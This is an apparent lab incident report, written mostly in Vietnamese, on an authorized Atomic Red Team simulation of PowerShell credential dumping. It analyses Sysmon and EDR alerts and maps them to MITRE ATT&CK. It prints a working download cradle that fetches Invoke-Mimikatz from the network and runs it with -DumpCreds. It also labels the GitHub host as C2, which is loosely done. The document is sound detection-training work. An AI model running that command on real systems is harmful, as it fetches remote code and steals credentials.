








**T1059.001-1 ****Mimikatz-Practive**
**1.****Executive ****Summary**
Vào 2026-07-12 15:48, trên máy Windows 10 victim DESKTOP-JI0TPU0 đã thực hiện một bài kiểm thử Atomic Red Team mô phỏng hành vi PowerShell credential dumping. Chuỗi hành vi bao gồm cmd.exe gọi powershell.exe, sử dụng IEX và Net.WebClient.DownloadString để tải PowerSploit Invoke-Mimikatz từ raw.githubusercontent.com, sau đó thực thi Invoke-Mimikatz -DumpCreds.
LimaCharlie EDR đã tạo nhiều cảnh báo liên quan đến Suspicious PowerShell, PowerShell Download Cradle, Mimikatz Execution và Credential Dumping. Sysmon ghi nhận Event ID 1, Event ID 3 và Event ID 22, thể hiện rõ process execution, DNS query và outbound HTTPS connection.
Kết luận: Đây là True Positive - Authorized Simulation. Nếu xảy ra trong môi trường thật, sự kiện này cần được phân loại Critical do liên quan đến credential dumping.
Chạy test Atomic test trên máy Endpoint win10

Dashboard bắn ra nhiều cảnh báo bất thường và tiến hành check nguồn powershell từ nguồn index win10sysmon và nguồn edr

Kiểm tra thì thấy chuỗi các tiến trình :
Đầu tiên là hành vi Discovery, cụ thể là T1033 – System Owner/User Discovery

**2****.****Scope**
- Endpoint: DESKTOP-JI0TPU0
- IP: 172.16.1.10
- Time window: 2026-07-12 15:40 đến 16:00
- Data sources:
+ Sysmon logs in Splunk index=win10sysmon
+ LimaCharlie EDR logs in Splunk index=edr
+ LimaCharlie web console detections
- Test framework: Atomic Red Team
- Technique simulated: PowerShell-based credential dumping
**3. ****Alert**** / ****Detection**** ****Overview**
Source: - LimaCharlie EDR

**4. ****Timeline**

**5****. ****Command**** ****Line**** ****Analysis**
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/.../Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
- chạy lênhj powershell thực thi nội dung chuỗi  với chuỗi hành vi là tạo Webclient mới để tải nội dung từ URL và giữ trong memory để không lưu vào ổ đĩa
- Invoke-Mimikatz.ps1 là một phần của bộ công cụ PowerSploit, dùng để gọi/chạy chức năng của Mimikatz thông qua PowerShell
- Invoke-Mimikatz -DumpCreds là lệnh Cố gắng dump credential

**6****. ****Network**** ****Evidence**
DNS Evidence:
- Event ID: 22
- Process: powershell.exe
- QueryName: raw.githubusercontent.com
- Purpose: Gửi yêu cầu tới domain C2 để yêu cầu kết nối thực thi lệnh từ xa
Network Connection Evidence:
- Event ID: 3
- Process: powershell.exe
- Destination Port: 443
- Protocol: TCP/HTTPS
- Source IP: 172.16.1.10

**7****. EDR ****Detection**** ****Analysis**
Số lượng và chất lượng các phát hiện cho thấy đây là kết quả dương tính thật với độ tin cậy cao. TRUE POSITIVE

**8****. MITRE ATT&CK ****Mapping**
Hoạt động được quan sát tương ứng với MITRE ATT&CK T1059.001 do thực thi PowerShell, T1105 do truy xuất tập lệnh từ xa và T1003 do sử dụng Invoke-Mimikatz -DumpCreds để mô phỏng việc trích xuất thông tin đăng nhập.
| Technique | Name | Evidence |
| --- | --- | --- |
| T1059.001 | PowerShell | Thục thi tiến trình độc powershell.exe |
| T1105 | Ingress Tool Transfer | DownloadString from raw.githubusercontent.com |
| T1003 | OS Credential Dumping | Invoke-Mimikatz -DumpCreds |
| T1082/T1033 nếu có | System/User Discovery | hostname.exe, whoami.exe |

**9****. ****Verdict**
- True Positive - Authorized Simulation
- Confidence: High
- Severity: Critical
